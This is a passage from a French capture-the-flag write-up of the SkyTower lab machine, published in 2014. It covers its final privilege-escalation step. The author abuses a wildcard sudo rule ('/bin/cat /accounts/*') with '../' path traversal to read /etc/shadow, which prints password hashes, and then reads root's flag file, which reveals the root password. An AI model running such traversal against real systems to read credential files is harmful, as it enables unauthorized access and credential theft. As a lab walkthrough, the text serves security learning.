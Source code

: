 Le mot de passe de *sara* est valide sur le système mais là encore un *.bashrc* nous éjecte.  

J'édite le *.bashrc* via *su -c vi sara* (puis *:e .bashrc* depuis *Vi*) pour retirer les lignes qui posent problème.  

Mission accomplished
--------------------

*sara* a une autorisation spéciale *sudo* pour consulter le contenu de */accounts* (qui est vide) :  

```plain
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```

Seulement l'astérisque est pour le moins permissif et permet de remonter l'arborescence :  

```plain
sara@SkyTower:/var/www$ sudo /bin/cat /accounts/../etc/shadow
root:$6$rKYhh57q$AVs1wNVSbE5K.IU1Wp9l7Ndg3iPlB7yczctQD6OL9fBZir2ppGDA6v0Vx17xjg.b3zu6mkAVpEN2BuG3wvS2l/:16241:0:99999:7:::
--- snip ---
john:$6$a39powbs$ditVKZ1waa6vJEh3BG1d5jLv/uADKcl.r1kcA.XKyhNfJoiDhSdwmSZel3V5cZ/S6ec3wd8rdNA2dOznTXhl0/:16198:0:99999:7:::
sara:$6$2PvpHNG0$hbaMRd5fZhWMDHyyhGHINSy.qBHnvP4QW1k9RSwv.pQM6SoZey53C7S7aF6263ae6qx5TwVA6sahf5tebUqvY1:16198:0:99999:7:::
william:$6$c3VykdoT$qRUKl1e77skTm0sLHavRSp8mUJfMIPrJBovrXC8o9GY8/P7gpasSbvtqA0rn9.HyxjKhSVji8/CzHNFLit3GU1:16241:0:99999:7:::
```

Qu'il-y a t-il dans /root ?  

```plain
sara@SkyTower:~$ sudo /bin/ls /accounts/../root/ -al
total 36
drwx------  4 root root 4096 Jun 20 09:01 .
drwxr-xr-x 24 root root 4096 Jun 20 07:52 ..
drwx------  2 root root 4096 Jun 20 08:24 .aptitude
-rw-------  1 root root  204 Jun 20 09:01 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rwx------  1 root root   69 Jun 20 08:59 flag.txt
-rw-------  1 root root  268 Jun 20 07:42 .mysql_history
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
drwx------  2 root root 4096 Jun 20 07:48 .ssh

sara@SkyTower:~$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```

Game over !
-----------



*Published June 29 2014 at 17:30*
